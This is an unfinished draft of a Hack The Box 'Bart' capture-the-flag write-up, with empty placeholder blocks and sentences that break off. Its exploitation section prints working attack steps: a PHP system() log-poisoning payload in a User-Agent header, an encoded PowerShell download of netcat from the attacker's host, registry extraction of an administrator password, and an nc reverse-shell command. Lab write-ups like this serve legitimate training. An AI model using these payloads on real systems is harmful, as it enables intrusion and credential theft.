 ```yaml
---
layout: post
title:  "Hack The Box - Bart - Writeup"
date:   2000-01-01 07:00:00 +0200
tags: ["Hack The Box","OSCP"]
---
```

{% assign imgDir="HTB-Bart-Writeup" %}

# Introduction
The hack the box machine "Bart" is a medium machine which is included in [TJnull's OSCP Preparation List](). Exploiting this machine requires knowledge in the areas of wordlist generation, log injection. This machine differs from other machines in the sense that is quite realistic.

<img style="Width:550px;" src="/assets/{{ imgDir }}/card.png" alt="HTBCard">

By enumerating the target, it is possible to discover 

# Exploitation
We start by performing an nmap scan by executing `nmap -sS -sC -sV -p- 10.10.10.81`. The `-sS`, `-sC` and `-sV` flags instruct nmap to perform a SYN scan to identify open ports followed by a script and version scan on the ports which were identified as open. The `-p-` flag instructs nmap to scan all the ports on the target. From the scan results, shown below, we can see that there is only 

{% highlight none linenos %}
┌──(kali㉿kali)-[~]
└─$ @@sudo nmap -sS -sC -sV -p- 10.10.10.81@@
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-04 09:22 EDT
Nmap scan report for 10.10.10.81
Host is up (0.037s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
@@@80/tcp open  http@@@    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.97 seconds
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
{% endhighlight %}

If we try to navigate to [http://10.10.10.81](http://10.10.10.81) in a browser, we are redirected [http://forum.bart.htb](http://forum.bart.htb). However, our browser won't be able to find a host for this domain since it can not find any related DNS record which resolve to an IP address. 

![forum.bart.htb](/assets/{{ imgDir }}/forum.bart.htb.png)

We can add the domain name `forum.bart.htb` to our `/etc/hosts` file and try again. 

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ echo '10.10.10.81\tforum.bart.htb\tbart.htb' | sudo tee -a /etc/hosts 
10.10.10.81     forum.bart.htb  bart.htb
                                                                                                                                                            
┌──(kali㉿kali)-[/tmp/x]
└─$
{% endhighlight %}

ffuf -u http://bart.htb/FUZZ -ic -fs 158607 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
We use -fs to filter out 404 pages

We find /monitor

we log in to /monitor with harvey:potter

a redirect is performed to monitor.bart.htb

We add monitor.bart.htb to our `/etc/hosts` file and reload the page

We log in again

Click "Servers" page => We find internal-01.bart.htb

Visiting the URL http://internal-01.bart.htb leads to a redirection to http://internal-01.bart.htb/simple_chat/login_form.php

googling "simple_chat" leads us to https://github.com/magkopian/php-ajax-simple-chat

POST /simple_chat/register.php HTTP/1.1
Host: internal-01.bart.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

uname=test&passwd=Testing123!

GET /log/log.php?filename=ws.php&username=harvey HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php system($_GET['c']); ?>
Accept: */*
Referer: http://internal-01.bart.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=abglkpe7dbegm7s866jb7k17s5
Connection: close

GET /log/ws.php?c=whoami HTTP/1.1
Host: internal-01.bart.htb
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Referer: http://internal-01.bart.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

We use n64.exe from.
https://eternallybored.org/misc/netcat/

sudo python3 -m http.server 80

powershell "wget http://10.10.16.2/nc64.exe -OutFile nc64.exe"

GET /log/ws.php?c=%70%6f%77%65%72%73%68%65%6c%6c%20%22%77%67%65%74%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%36%2e%32%2f%6e%63%36%34%2e%65%78%65%20%2d%4f%75%74%46%69%6c%65%20%6e%63%36%34%2e%65%78%65%22


PS C:\inetpub\wwwroot\internal-01\log> Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"

DefaultDomainName DefaultUserName DefaultPassword                 
----------------- --------------- ---------------                 
DESKTOP-7I3S68E   Administrator   3130438f31186fbaf962f407711faddb

 Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem | Select Name, Domain

Gives us "BART"

$secstr = New-Object -TypeName System.Security.SecureString
"3130438f31186fbaf962f407711faddb".ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$creds = new-object -typename System.Management.Automation.PSCredential -argumentlist "BART\Administrator", $secstr
Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\internal-01\log\nc64.exe -e powershell.exe 10.10.16.2 443 } -Credential $creds -Computer localhost

{% highlight none linenos %}
Placeholder
{% endhighlight %}

{% highlight none linenos %}
Placeholder
{% endhighlight %}

{% highlight none linenos %}
Placeholder
{% endhighlight %}

{% highlight none linenos %}
Placeholder
{% endhighlight %}

{% highlight none linenos %}
Placeholder
{% endhighlight %}

{% highlight none linenos %}
Placeholder
{% endhighlight %}

{% highlight none linenos %}
Placeholder
{% endhighlight %}

{% highlight none linenos %}
Placeholder
{% endhighlight %}



# Privilege Escalation

